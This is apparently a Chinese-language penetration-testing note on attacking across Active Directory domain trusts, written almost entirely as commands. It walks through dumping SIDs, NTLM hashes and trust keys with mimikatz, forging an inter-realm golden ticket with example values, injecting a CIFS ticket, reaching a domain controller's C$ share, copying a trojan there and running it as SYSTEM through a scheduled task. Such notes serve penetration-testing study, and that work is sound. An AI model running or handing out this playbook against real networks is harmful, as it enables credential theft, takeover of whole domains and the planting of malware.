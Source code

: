 # 跨域攻击

## 跨域攻击方法

- 常规渗透方法(web漏洞)
- 哈希传递票据攻击
- 利用域信任关系

### 查看域信任关系

``` 
nltest /domain_trusts
```

![image-20240613150318467](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240613150318467.png)



### 利用域信任密钥获取目标域

***实验步骤：***

- 使用mimikatz获取：

```
mimikatz.exe  "privilege::debug"    当前域的SID
mimikatz.exe  "lsadump::lsa /patch /user:HECK$"  父域的SID
mimikatz.exe  "lsadump::trust /patch"exit    子域域管的NTLM、信任密钥
```

- 在普通的域内用户中创建高权限票据：

```
mimikatz.exe "kerberos::golden /domain:子域 /sid:子域SID /sids:父域-519 /rc4:信任密钥 /user:任意用户/service:krbtgt /target:父域/ticket:subdc administrator.kirbi" exit

eg:
mimikatz.exe "kerberos::golden /domain:abc.heck.com /sid:S-1-5-21-2902250016-280749999-3752131090/sids:S-1-5-21-2716900768-72748719-3475352185-519 /rc4:4101a9a4410052f42a70990e5371a5b9/user:administrator /service:krbtgt /target:heck.com /ticket:administrator.kirbi" exit
```

- 上传asktgs.exe和kirbikator.exe工具，asktgs.exe伪造票据，kirbikator.exe注入票据。

- 创建CIFS服务的票据进行复制文件的操作
  ```
  shell asktgs.exe administrator.kirbi CIFS/WIN-E0TAL57RCAA.heck.com
  ```

- 将票据注入内存

  ```
  shell kirbikator.exe lsa CIFs.WIN-E0TAL57RCAA.heck.com.kirbi
  ```

- 访问域控

  ```
  shell dir \\WIN-E0TAL57RCAA.heck.com\c$
  ```

- 把木马传过去

  ```
  shell copy zz.exe \\WIN-E0TAL57RCAA.heck.com\c$
  ```

  

- 创建计划任务

  ```
  schtasks /create /s WIN-E0TAL57RCAA.heck.com /tn zz /sc onstart /tr c:\zz.exe /ru system /f
  ```

- 执行计划任务

  ```
  schtasks /run /s WIN-E0TAL57RCAA.heck.com /i /tn "zz"
  ```

  
